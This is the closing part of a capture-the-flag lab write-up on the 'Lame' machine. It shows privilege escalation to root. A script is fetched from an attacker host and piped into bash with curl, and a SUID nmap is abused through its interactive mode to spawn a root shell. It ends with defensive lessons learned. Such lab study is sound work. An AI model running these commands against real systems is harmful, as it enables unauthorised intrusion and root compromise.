 Doesn't work. Now used a script to help us whit exploitation.

`daemon@lame:/tmp$ curl http://10.10.16.11/linpeas.sh | bash`

I see a lot of data. let's check some data interesting.

```output
OS: Linux version 2.6.24-16-server (buildd@palmer) (gcc version 4.2.3 (Ubuntu 4.2.3-2ubuntu7)) #1 SMP Thu Apr 10 13:58:00 UTC 2008
User & Groups: uid=1(daemon[0m[0m) gid=1(daemon[0m[0m) groups=1(daemon[0m[0m)
Hostname: lame
Writable folder: /dev/shm
[+] /bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /bin/nc is available for network discover & port scanning (linpeas can discover hosts and scan ports, learn more with -h)
[+] nmap is available for network discover & port scanning, you should use it yourself
```

Let's go to a quick google search and search about *gtfobins*.
GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

`-rwsr-xr-x 1 root root 763K Apr  8  2008 /usr/bin/nmap`

There is a script Nmap used by the root. Let's go to search in gtfobins web about any vulnerable.

The interactive mode, available in versions 2.02 to 5.21, can be used to execute shell commands.

```output
sudo nmap --interactive
nmap> !sh
```

```output
daemon@lame:/tmp$ nmap -v

Starting Nmap 4.53 ( http://insecure.org ) at 2022-04-10 14:29 EDT
Read data files from: /usr/share/nmap
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.032 seconds
           Raw packets sent: 0 (0B) | Rcvd: 0 (0B)
daemon@lame:/tmp$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
sh-3.2# whoami
root
```

We have root.

# Lessons Learned
1. Always run a full port scan! We wouldn’t have discovered the vulnerable distributed compiler daemon distcc running on port 3632 if we only ran the initial scan. This gave us an initial foothold on the machine where we were eventually able to escalate privileges to root.
2. Always update and patch your software! In both exploitation methods, we leveraged publicly disclosed vulnerabilities that have security updates and patches available.
3. Samba ports should not be exposed! Use a firewall to deny access to these services from outside your network. Moreover, restrict access to your server to valid users only and disable WRITE access if not necessary.

